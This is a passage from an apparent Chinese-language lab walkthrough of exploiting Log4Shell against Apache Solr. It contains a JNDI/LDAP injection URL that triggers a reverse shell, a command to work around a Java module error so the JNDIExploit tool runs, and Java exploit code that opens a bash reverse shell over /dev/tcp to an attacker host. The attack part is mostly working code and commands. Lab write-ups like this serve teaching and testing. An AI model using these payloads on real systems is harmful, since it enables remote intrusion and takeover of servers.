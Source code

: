 浏览器访问：`http://127.0.0.1:8983/solr/admin/cores?_=${jndi:ldap://192.168.56.102:1389/Basic/ReverseShell/192.168.56.102/8888}`

假如报错：

```
java.lang.IllegalAccessError: superclass access check failed: 
class com.feihong.ldap.template.TomcatEchoTemplate (in unnamed module @0x4015e7ec) 
cannot access class com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet (in module java.xml) 
because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.runtime to unnamed module @0x4015e7ec
```

是因为Java 9开始，模块类如果没有被显式导出，则无法被其他模块访问。

解决方法：

```bash
java --add-exports java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED -jar JNDIExploit-1.3-SNAPSHOT.jar
```

成功反弹shell：

![](/img/2024-08-27-log4shell/7.png)

### 4.2 手工搭建HTTP+LDAP服务器

编写恶意代码：

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
static {
try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/攻击机kali机的ip/nc监听的端口 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
